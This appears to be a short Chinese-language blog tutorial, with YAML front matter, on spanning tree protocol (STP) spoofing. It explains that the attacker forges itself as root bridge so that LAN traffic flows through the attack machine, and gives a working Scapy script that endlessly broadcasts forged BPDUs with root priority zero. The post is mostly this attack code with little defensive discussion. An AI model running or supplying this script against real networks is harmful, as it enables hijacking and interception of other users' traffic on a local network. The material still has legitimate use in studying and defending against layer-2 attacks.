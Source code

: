 ```yaml
---
title: 网络攻防之——Python实现生成树协议(STP)欺骗攻击
categories: 网络攻防
copyright: true
date: 2019-04-09 10:09:48
tags:
- Python
- 生成树协议欺骗
- 网络攻防
---
```

# 何为生成树协议欺骗攻击？
- 所谓的生成树协议就是：通过BPDU来选举根桥或者非根桥，且当网络收敛完毕后，根桥会一直发送BPDU来确定下游设备之间的关系
> 我们要做的就是把自己伪造成根桥，这样这个局域网的流量都走我们的攻击机过啦。

# 代码示例
<!--more-->
```
#!/usr/bin/python
from scapy.all import *

//01:80:c2:00:00:00这个是一个组播地址

eth = Dot3(dst="01:80:c2:00:00:00", src="自己的MAC地址")

llc = LLC()

stp = STP(rootid=0, rootmac="自己的MAC地址", bridgeid=0, bridgemac="自己的MAC地址"
)

pkt=sendp(eth/llc/stp,inter=2,loop=1)
```